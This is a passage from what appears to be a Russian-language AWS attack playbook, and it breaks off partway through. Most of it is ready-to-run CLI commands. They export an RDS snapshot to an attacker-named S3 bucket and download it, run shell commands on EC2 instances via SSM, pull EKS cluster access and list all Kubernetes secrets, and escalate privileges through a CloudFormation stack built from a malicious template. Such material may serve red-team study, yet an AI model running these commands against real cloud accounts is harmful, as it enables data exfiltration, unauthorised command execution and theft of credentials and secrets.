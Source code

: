 ```bash
    --source-arn arn:aws:rds:region:account:snapshot:malicious-snapshot \
    --s3-bucket-name malicious-rds-exports \
    --s3-prefix exports/ \
    --iam-role-arn arn:aws:iam::account:role/ExportRole

# Скачивание экспортированных данных
aws s3 sync s3://malicious-rds-exports/exports/ ./local-rds-data/
```

#### **Шаг 7: EC2 Command Execution**
```bash
# Получение списка инстансов
aws ssm describe-instance-information

# Отправка команд
aws ssm send-command \
    --instance-ids "i-1234567890abcdef0" \
    --document-name "AWS-RunShellScript" \
    --parameters 'commands=["whoami", "id", "uname -a"]'

# Получение результатов
aws ssm get-command-invocation \
    --command-id "command-id" \
    --instance-id "i-1234567890abcdef0"
```

#### **Шаг 8: EKS Cluster Compromise**
```bash
# Получение информации о кластере
aws eks describe-cluster --name target-cluster

# Настройка kubeconfig
aws eks update-kubeconfig --region us-east-1 --name target-cluster

# Доступ к Kubernetes API
kubectl get pods --all-namespaces
kubectl get secrets --all-namespaces
```

---

### 🔄 Альтернативные пути эскалации

#### **Путь 1: CloudFormation Escalation**
```bash
# Создание CloudFormation стека
aws cloudformation create-stack \
    --stack-name privilege-escalation \
    --template-body file://malicious-template.yaml \
    --capabilities CAPABILITY_IAM
```

